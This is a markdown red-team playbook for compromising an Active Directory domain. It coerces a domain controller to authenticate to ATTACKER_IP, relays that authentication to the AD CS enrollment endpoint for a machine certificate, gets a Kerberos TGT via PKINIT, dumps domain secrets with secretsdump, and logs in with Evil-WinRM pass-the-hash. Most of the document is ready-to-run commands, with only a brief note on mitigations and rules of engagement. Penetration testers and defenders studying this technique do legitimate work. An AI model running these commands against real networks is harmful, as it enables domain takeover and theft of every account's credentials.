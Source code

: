 ```yaml
---
title: "ADCS Relay → PKINIT TGT → DC Compromise"
tags: [active-directory, adcs, relay, petitpotam, printerbug, pkinit, kerberoast, impacket]
author: "RedMind"
date: 2025-10-01
---
```


# ADCS Relay → Machine Cert → PKINIT TGT → DC Compromise

**TL;DR**  
Abuse an AD CS HTTP enrollment endpoint by relaying NTLM from a domain member (ideally the DC computer account) to request a machine certificate. Use **PKINIT** with that cert to obtain a Kerberos **TGT** for the machine account, then leverage the TGT to dump secrets and pivot to full domain compromise.

---

## Goal
- Relay coerced NTLM auth to ADCS (`/certsrv/`), enroll a **machine certificate** for `DC01$`.
- Use **PKINITtools** to get a **TGT** for `DC01$` and confirm via `klist`.
- Use **Impacket** (Kerberos auth, no password) to dump domain secrets; pivot to **Evil‑WinRM** with PTH.

## Assumptions & Prereqs
- ADCS Web Enrollment (or vulnerable ESC8-like relay path) reachable at `http(s)://ca.domain.local/certsrv/`.
- You can coerce authentication from **DC01** (or another privileged computer account) to your **ntlmrelayx** listener (e.g., **PrinterBug**, **PetitPotam**, DFSCoerce).  
- Attacker host has: Python 3, **Impacket**, **PKINITtools**, and (if needed) **oscrypto** fixed for ECC/PKI.
- Time is in sync enough for Kerberos.

**Network**
```
Attacker (10.10.x.x)  <—NTLM—  DC01  —HTTP(S)—> ADCS /certsrv
           |                          ^ (relay via ntlmrelayx)
           +— Kerberos (PKINIT) —> KDC (DC01 or other DC)
```

---

## High-Level Flow
1) Start **ntlmrelayx** targeting the ADCS enrollment endpoint.  
2) Trigger **coercion** from DC to attacker → relay to ADCS.  
3) Receive `.pfx` for `DC01$` (machine cert).  
4) Use `gettgtpkinit.py` to get a **TGT** (ccache).  
5) Export ticket (KRB5CCNAME), verify with `klist`.  
6) Use `secretsdump.py -k -no-pass` to dump Administrator hash / DIT.  
7) **Evil‑WinRM** pass‑the‑hash to prove access.

---

## Commands — End‑to‑End

### 0) Prep
```bash
python3 -m pip install impacket
# PKINITtools + oscrypto fix depending on env (build/install as needed)
```

### 1) Relay to ADCS
```bash
# Common: specify target ADCS web enrollment endpoint
# If HTTPS w/ NTLM enabled on /certsrv, point at it explicitly
ntlmrelayx.py \
  -t http://ca.domain.local/certsrv/ \
  --adcs \
  --template Machine \
  --outfile DC01.pfx \
  -smb2support
```
> **Note:** Adjust template (e.g., `Machine` / `User`) and CA URL to match. Use `--no-smb2support` if environment breaks with SMB2.

### 2) Coerce DC authentication (choose one)
```bash
# PrinterBug (requires RPC to print spooler)
printerbug.py DOMAIN/DC01$@dc01.domain.local ATTACKER_IP

# PetitPotam (EFSRPC)
PetitPotam.py -d DOMAIN -u user -p pass ATTACKER_IP dc01.domain.local
```
> Any working coercion path is fine; goal is an inbound NTLM you can relay to ADCS.

### 3) You should receive a PFX
`ntlmrelayx` will save a `.pfx` (e.g., `DC01.pfx`). If it’s password‑protected, note the password from relay output.

### 4) Use PKINIT to get TGT
```bash
# Using dirkjanm/PKINITtools
python3 gettgtpkinit.py DOMAIN/DC01\$@DOMAIN.LOCAL \
  -pfx-base64 $(base64 -w0 DC01.pfx) \
  -dc-ip DC_IP \
  dc01.ccache

# Alternative with explicit files
python3 gettgtpkinit.py DOMAIN/DC01\$@DOMAIN.LOCAL \
  -cert-pfx DC01.pfx -pfx-pass <PFX_PASS> \
  -dc-ip DC_IP \
  dc01.ccache
```

### 5) Load & verify ticket
```bash
export KRB5CCNAME=$(pwd)/dc01.ccache
klist
```

### 6) Dump secrets over Kerberos (no pass)
```bash
# Dump Administrator (just DC user) or full DIT
secretsdump.py -k -no-pass -dc-ip DC_IP -just-dc-user Administrator \
  'DOMAIN/DC01$'@dc01.domain.local

# Or DCSync
secretsdump.py -k -no-pass -just-dc DOMAIN/Administrator@dc01.domain.local
```

### 7) Prove access (WinRM PTH)
```bash
evil-winrm -i dc01.domain.local -u Administrator -H <NTLM_HASH>
```

---

## Checks & Troubleshooting
- **Relay fails / 401 loop**: ADCS may not accept NTLM on `/certsrv/` or requires SSL. Try `https://` and confirm ESC1/ESC8 conditions.
- **Template denied**: You need a template that allows **enrollment** for machine accounts (e.g., `Machine`). Check template issuance policy.
- **PKINIT fails**: Ensure time sync, CA chain trust, and correct `DOMAIN/DC01$` UPN format.
- **Kerberos env**: Confirm `KRB5CCNAME` is exported and `klist` shows the machine TGT.

## Safety & Cleanup
- Remove `.pfx` and ccache artifacts from shared systems.  
- In labs, snapshot/rollback. In production tests, follow ROE, report precisely which template/endpoint was abused and mitigations (disable NTLM on `/certsrv/`, restrict templates, require Manager Approval, enforce EKUs, audit coercion paths).

---

## Tools (for reference)
- Impacket (`ntlmrelayx.py`, `secretsdump.py`)
- PKINITtools (`gettgtpkinit.py`)
- Coercion: PrinterBug, PetitPotam, DFSCoerce (as applicable)
- Evil‑WinRM (operator access verification)

